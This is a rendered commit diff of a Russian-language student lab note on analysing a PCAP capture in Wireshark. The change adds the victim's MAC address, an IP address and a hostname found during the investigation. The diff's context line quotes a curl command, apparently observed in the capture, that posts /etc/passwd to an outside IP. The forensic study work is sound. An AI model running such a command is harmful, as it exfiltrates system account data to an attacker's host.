

Before and after one commit to ameliaash2454/study-labs, a Markdown page: Анализ PCAP WireShark.md, the part around the change. Rendered like a GitHub page; pictures changed too: attachment/Pasted image 20261108135122.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-11-08 13:53:56

```diff
--- a/Анализ PCAP WireShark.md
+++ b/Анализ PCAP WireShark.md
@@ -68,4 +68,8 @@ curl -X POST -d /etc/passwd http://117.11.88.124:443/ - была введена
 ## Расследование:
 Выбрала для анализа ip адреса ip.addr == 10.4.1.102 && ip.addr == 213.186.33.87
 ![](attachment/Pasted%20image%2020261108134320.png)
-Мак адрес жертвы
+Мак адрес жертвы 74:44:01:8d:2е:93
+IP адрес 213.186.33.87
+
+![](attachment/Pasted%20image%2020261108135122.png)
+имя хоста connexion-zen.com
```
